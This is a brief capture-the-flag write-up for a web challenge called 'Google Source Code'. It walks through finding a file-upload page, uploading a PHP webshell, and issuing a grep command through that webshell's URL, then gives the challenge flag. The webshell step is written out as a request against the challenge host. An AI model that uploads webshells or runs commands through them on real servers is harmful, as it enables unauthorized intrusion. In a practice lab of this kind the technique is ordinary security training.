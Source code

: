 # Google Source Code

Comment says `get the page`

`/?page=flag` gives us a link to a trailer for `upload`

`/?page=uploa`d gives us a link to upload a file

Upload a webshell:

`http://web.zh3r0.ml:7777/?page=easy-simple-php-webshell&cmd=grep%20-ir%20flag%20``

#### zh3r0{h3y_d1d_y0u_upl04d_php_c0rr3ct1y???_84651320}

